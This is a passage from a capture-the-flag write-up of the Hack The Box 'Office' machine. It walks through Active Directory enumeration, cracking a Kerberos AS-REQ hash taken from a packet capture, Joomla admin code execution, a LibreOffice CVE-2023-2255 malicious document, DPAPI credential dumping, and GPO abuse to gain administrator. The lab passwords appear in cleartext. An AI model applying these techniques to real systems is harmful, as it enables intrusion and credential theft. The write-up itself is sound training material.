VALID LOGIN:  dwolfe@office.htb:H0lOgrams4reTakIng0Ver754!

< ... SNIP ... >
```

Now, with a AD User in hands, we need to perform the same Active Directory enumeration we've before.  
This is crucial in AD environments and in many others, it's always a cyclic process.  
Running [enum4linux-ng][enum4linux-ng] again, this time with dwolfe user:

<details>
<summary><b>Users</b></summary>
<div markdown="1">
~~~
'1107':
  username: PPotts
  name: (null)
  acb: '0x00000210'
  description: (null)
'1108':
  username: HHogan
  name: (null)
  acb: '0x00000210'
  description: (null)
'1109':
  username: EWhite
  name: (null)
  acb: '0x00000210'
  description: (null)
'1110':
  username: etower
  name: (null)
  acb: '0x00000210'
  description: (null)
'1111':
  username: dwolfe
  name: (null)
  acb: '0x00000210'
  description: (null)
'1112':
  username: dmichael
  name: (null)
  acb: '0x00000210'
  description: (null)
'1113':
  username: dlanor
  name: (null)
  acb: '0x00000210'
  description: (null)
'1114':
  username: tstark
  name: (null)
  acb: '0x00000210'
  description: (null)
'1118':
  username: web_account
  name: (null)
  acb: '0x00000210'
  description: (null)
'500':
  username: Administrator
  name: (null)
  acb: '0x00004210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000215'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00020011'
  description: Key Distribution Center Service Account
~~~
</div>

</details>


<details>
<summary><b>Password Policy</b></summary>
<div markdown="1">
~~~
Domain password information:
  Password history length: 24
  Minimum password length: 7
  Maximum password age: 41 days 23 hours 53 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: false
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 1 minute
  Lockout duration: 1 minute
  Lockout threshold: 20
Domain logoff information:
  Force logoff time: not set
~~~
</div>

</details>

<details>
<summary><b>SMB Shares</b></summary>
<div markdown="1">
~~~
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SOC Analysis    Disk
SYSVOL          Disk      Logon server share
~~~
</div>

</details>

Could not execute commands straight away with the dwolfe user.
[Impacket toolkit rce vk9-sec blog][vk9-sec]

Checking the `SOC Analysis` SMB share:
```
Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 20:59:00 2023
```

To analyze the pcap, we will use wireshark.  
Most of the time wireshark is the way to go tool, specially to get a good understand of the packets captured.  
If some advanced filtering is needed, tshark is a really good tool that can be combined with some regex mathing tool to get exactly what we need.  
The file contains a lot of TLS encrypted connection.  
There is a plain text smb connection, but it resolves to encrypted smb3.  
Kerberos AS-REQ packets found, it's possible to get the hash and bruteforce it.  
Three blogs were found during the research on how to get the hash from network packets.  
```
https://medium.com/@business1sg00d/as-req-roasting-from-a-router-2a216c801a2c
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
https://blog.improsec.com/tech-blog/asreqroast-from-mitm-to-hash
```

I really recommend reading some Kerberos network packet analysis such as [robert.broeckelmann][robert-medium] to be familiared with the prototol.
![Wireshark KBR](/assets/2024-04-20-writeups-office-htb/krb_as-req_pcap.png "Wireshark KBR")

Creating a hash file and cracking it with hashcat
```
$ hashcat -a 0 -m 19900 tstark.hash ~/tools/lists/rockyou.txt

< ... SNIP ... >

$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69

< ... SNIP ... >
```

Another password on hands, this time for the `tstark` user.  
In the Joomla dump, the Administrator name is Tony Stark.  
With this password it's possible to login into Joomla Administrator panel and perform a RCE.  
Following the [hacktricks joomla guide][ht-joomla] to execute a [reverse shell][ps-reverse]


### User web_account
<details>
<summary><b>Whoami</b></summary>
<div markdown="1">
~~~
USER INFORMATION
----------------

User Name          SID
================== =============================================
office\web_account S-1-5-21-1199398058-4196589450-691661856-1118


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
~~~
</div>

</details>

<details>
<summary><b>Systeminfo</b></summary>
<div markdown="1">
~~~
Host Name:                 DC
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00454-20165-01481-AA185
Original Install Date:     4/12/2023, 2:54:39 PM
System Boot Time:          6/22/2024, 2:44:44 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,480 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,174 MB
Virtual Memory: In Use:    1,625 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    office.htb
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.11.3
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
~~~
</div>

</details>

Enumerating the `xampp server`, found more services running:
```
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2023   7:53 AM                administrator
d-----         1/30/2024   8:39 AM                internal
d-----          5/8/2023   3:10 PM                joomla
```

The administratos is just a log file with Joomla failed login attempts
The internal is a resume upload service.
Inspecting the php code.  
It only accept these extenions `array('docm','docx','doc','odt');`.  
The files are save to `C:\xampp\htdocs\internal\applications`.  
Looking for scheduled and processes that may process this folder contents
None interesting was found.  
The files one the folder are eventually erased.  
Listing installed applications.  
```
$ Get-WMIObject Win32_InstalledWin32Program | select Name, Version, ProgramId  

Name                                                               Version          ProgramId                           
----                                                               -------          ---------                           
Microsoft 365 Apps for enterprise - en-us                          16.0.17126.20132 00005344ced14ffe6e714b1a2fc12adc...
Microsoft OneDrive                                                 23.076.0409.0001 00008fb231529268e1232a4fdd301d5b...
Oracle VM VirtualBox Guest Additions 7.0.6                         7.0.6.155176     00002c8acd2d72476b3a5038242ab78c...
XAMPP                                                              8.0.28-0         000039a615f0261a8993886493c5974c...
LibreOffice 5.2.6.2                                                5.2.6.2          00006658248ec0073db3a252bc30b8d3...
VMware Tools                                                       12.0.6.20104755  00003bc0253577d228b9370783e1419f...
Microsoft Edge                                                     121.0.2277.112   000040cc1d0b11d4c51562216c85233d...
Microsoft Edge Update                                              1.3.183.29       0000d42b699b8322696d014b26533f01...
Microsoft Edge WebView2 Runtime                                    121.0.2277.112   00003bf23bde9cc9369da39bc1df1aa7...
Npcap                                                              1.71             00004eeb517eefaea87dc5cd5fd069f3...
Wireshark 4.0.5 64-bit                                             4.0.5            00001f5e09b9ed9b19505b9e3fcd33c4...
Microsoft Visual C++ 2015-2022 Redistributable (x64) - 14.32.31332 14.32.31332.0    0000309aacf735e65ef3867bc02c2e6c...
Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.29.30133 14.29.30133.0    0000969fbe3ea7c0470836ab0cc8c14a...
Teams Machine-Wide Installer                                       1.5.0.30767      0000a8571596f0d284d93f5c20946e72...
Microsoft Search in Bing                                           2.0.2            0000e69baca32582bf26aefc45ba1980...
```

The LibreOffice installed on the system is vulnerable to [CVE-2023-2255][CVE-2023-2255] and has a [public exploit][CVE-2023-2255-exploit]
Creating the malicious ODT file with the same reverse shell used earlier and we got a shell

### User ppotts
<details>
<summary><b>Whoami</b></summary>
<div markdown="1">
~~~
USER INFORMATION
----------------

User Name     SID
============= =============================================
office\ppotts S-1-5-21-1199398058-4196589450-691661856-1107


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
OFFICE\Registry Editors                    Group            S-1-5-21-1199398058-4196589450-691661856-1106 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
~~~
</div>

</details>

With ppotts user, another approach was taken to escalate privileges.  
Following the [windows privillege escalation hacktricks cheatsheet][ht-windows-privesc]
Cached passwords found with cmdkey:
```
$ cmdkey /list
Target: Domain:interactive=office\hhogan
Type: Domain Password
User: office\hhogan
```

Dumping the password using DPAPI.  
Both of the following guides were used:  
```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials
```

HHogan creds:
```
UserName       : OFFICE\HHogan
CredentialBlob : H4ppyFtW183#
```

Using [RunasCs][runas-cs] tool to login as HHogan.  
This tool is pretty good as it helps a lot with UAC bypass.  

### User HHogan
<details>
<summary><b>Whoami</b></summary>
<div markdown="1">
~~~
USER INFORMATION
----------------

User Name     SID
============= =============================================
office\hhogan S-1-5-21-1199398058-4196589450-691661856-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
OFFICE\GPO Managers                         Group            S-1-5-21-1199398058-4196589450-691661856-1117 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
~~~
</div>

</details>

GPO Managers group can be use for GPO Abuse and gain administrator.  
Using [SharpView][sharpview] to see the GPOs.  
Exploiting with [SharpGPOAbuse][gpo-abuse] and adding hhogan to administrator group.  
SharpGPOAbuse had to be compile manually.  
It is way easier to have a Windows 10 virtual machine and compile right away.  




[ht-joomla]: <https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla> "Hacktricks Joomla"
[CVE-2023-23752]: <https://nvd.nist.gov/vuln/detail/CVE-2023-23752> "CVE-2023-23752"
[CVE-2023-23752-exploit]: <https://github.com/AlissonFaoli/CVE-2023-23752> "CVE-2023-23752 Exploit"
[enum4linux-ng]: <https://github.com/cddmp/enum4linux-ng> "enum4linux-ng"
[vk9-sec]: <https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/> "vk9-sec"
[robert-medium]: <https://medium.com/@robert.broeckelmann/kerberos-wireshark-captures-a-windows-login-example-151fabf3375a> "Kerberos Network"
[ps-reverse]: <https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3> "PS Reverse"
[runas-cs]: <https://github.com/antonioCoco/RunasCs> "RunasCs"
[CVE-2023-2255]: <https://nvd.nist.gov/vuln/detail/CVE-2023-2255> "CVE-2023-2255"
[CVE-2023-2255-exploit]: <https://github.com/elweth-sec/CVE-2023-2255> "CVE-2023-2255"
[ht-windows-privesc]: <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation> "Windows Local Privilege Escalation"
[sharpview]: <https://github.com/tevora-threat/SharpView> "SharpView"
[gpo-abuse]: <https://github.com/FSecureLABS/SharpGPOAbuse> "SharpGPOAbuse"
